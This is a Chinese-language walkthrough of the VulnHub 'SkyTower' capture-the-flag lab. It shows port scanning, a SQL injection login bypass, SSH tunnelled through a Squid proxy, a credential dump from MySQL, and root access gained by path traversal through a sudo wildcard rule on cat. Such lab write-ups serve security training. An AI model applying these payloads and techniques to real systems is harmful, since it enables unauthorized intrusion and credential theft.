




# Sky Tower

> https://download.vulnhub.com/skytower/SkyTower.zip
>
> vbox虚拟机

靶场IP地址：`192.168.32.8`



扫描对外IP地址：

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.8
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 03:06 EDT
Nmap scan report for 192.168.32.8
Host is up (0.00013s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
3128/tcp open     http-proxy Squid http proxy 3.1.20
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.86 seconds
```

浏览器访问80端口


邮箱输入框输入

```
' || 1=1#
```



```
Username: john
Password: hereisjohn
```

因为22端口被过来，使用squid进行反向代理

```
┌──(root㉿kali)-[~]
└─# proxytunnel -p 192.168.32.8:3128 -d 127.0.0.1:22 -a 2222
```

SSH 会话似乎在连接后立即终止，这可能是由于 .bashrc 文件中指定的命令造成的。决定使用 SCP 下载它来验证这一点，它确实包含一个显示"资金已被提取"并退出 shell 的命令：



```
┌──(root㉿kali)-[~]
└─# ssh john@192.168.32.5 -p 2222 "rm .bashrc"
john@192.168.32.5's password: 
                                                                                                                    
┌──(root㉿kali)-[~]
└─# ssh john@192.168.32.5 -p 2222             
john@192.168.32.5's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 18 03:16:03 2022 from localhost
john@SkyTower:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for john: 
Sorry, user john may not run sudo on SkyTower.
```

检查 login.php 文件时，发现一些数据库凭据：



找到一些用户名

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.02 sec)

mysql> use SkyTech
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

mysql> 
```

由于盒子上存在"sarah"用户，因此尝试通过 SSH 验证为 Sarah。遇到了与之前相同的问题，因此也必须为此用户删除 .bashrc ：

```
──(root㉿kali)-[~]
└─# ssh sara@192.168.32.5 -p 2222  "rm .bashrc"
sara@192.168.32.5's password: 
                                                                                                                    
┌──(root㉿kali)-[~]
└─# ssh sara@192.168.32.5 -p 2222              
sara@192.168.32.5's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 08:19:23 2014 from localhost

```

查看sudo列表

```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
```

这可以通过使用 ../ 来代替读取所有文件来滥用。这可以以多种方式用于潜在地实现 root 级访问，但检查 root 标志将显示 root 用户的密码：

```
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
